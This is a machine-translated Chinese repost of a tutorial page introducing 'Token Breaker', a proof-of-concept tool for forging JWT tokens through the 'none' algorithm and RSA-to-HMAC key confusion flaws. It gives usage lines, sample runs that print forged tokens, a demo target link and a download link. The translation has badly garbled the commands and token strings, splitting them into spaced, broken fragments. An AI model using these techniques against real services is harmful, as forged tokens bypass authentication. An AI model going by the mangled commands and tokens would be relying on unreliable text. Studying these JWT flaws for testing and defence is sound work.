

# 令牌断路器:JSON RSA 到 HMAC &无算法漏洞概念验证

> 原文：<https://kalilinuxtutorials.com/token-breaker/>

**Token Breaker** 专注于与 JWT 令牌相关的两个特定漏洞。

*   无算法
*   RSAtoHMAC

请参考[此](https://auth0.com/blog/critical-vulnerabilities-in-json-web-token-libraries/)链接，了解关于漏洞的见解以及攻击者如何伪造令牌

试试这个漏洞[这里](http://demo.sjoerdlangkemper.nl/jwtdemo/rs256.php?)

**然后一个用法**

**用法:** TheNone.py [-h] -t TOKEN
到 **kenBreaker:** 1 .TheNoneAlgorithm
**可选参数:**
-h，–help 显示此帮助消息并退出
**必需参数:**
-t TOKEN，–TOKEN TOKEN
JWT TOKEN value
**示例用法:**python thenone . py-t[JWTtoken]

**输出**

$。/the none . py-t eyjhbgcioijizi 1 niisi no 5 CCI 6 ikpx uj 9 . eyjsb 2 dpbii 6 IMF kbsisimldic6 ije 1 mzc1 mj xmjiifq . zwzhnjrmzdgzyzyzynzdcxmjk 5 otq 4 yze 0 ndvjmtnhzmjmytq 5 zdmyjy 0 zdgymzlhmjmglmtrhoda 2 ngu 4 MQ
t1]

**RSAtoHMAC 用法**

**用法:**rsatohmac . py[-h]-t TOKEN-p PUBKEY
TOKEN breaker:1 .RSAtoHMAC
**可选参数:**
-h，–help 显示此帮助消息并退出
R **必需参数:**
-t TOKEN，–TOKEN JWT TOKEN 值
-p PUBKEY，–PUBKEY 公钥文件路径
**示例用法:** python Rsa

**输出**

$。/rsatohmac . py-t eyj 0 exioijkv 1 qilcjhbgcioijsuzi 1 nij 9 . eyjpc 3 miiohrwolwvxc9 kzw 1 vlnnqb 2 vyzxhbmlyisimlhdci 1 wz 秀 bmxclyimhdci 6 MTU 0 MDM 3nja 2 msxhwijxnqwmzc 2 mtgxlcxjxrhips7 imlbgxvijoid 29y gqifx 0 . hi 50kvohzcf 7 zwkc}
[+]成功编码令牌:eyj 0 exioijijkv 1 qilcjhbgcijihuzi 1 nij 9 . eyjpc 3 miiokhwolwvxc93 D3 cuz 29 v2 xllmnvbviiiawf 0 ijoymzxmjg3 odczlcjlehije 4 ndm 5 NDU 2 otmsimrhdgeiniagvsbg 8 ioijoywnrwqhin 19.8 jfuzpa 7 cwasfe 0 lijr

[**Download**](https://github.com/Goron/TokenBreaker)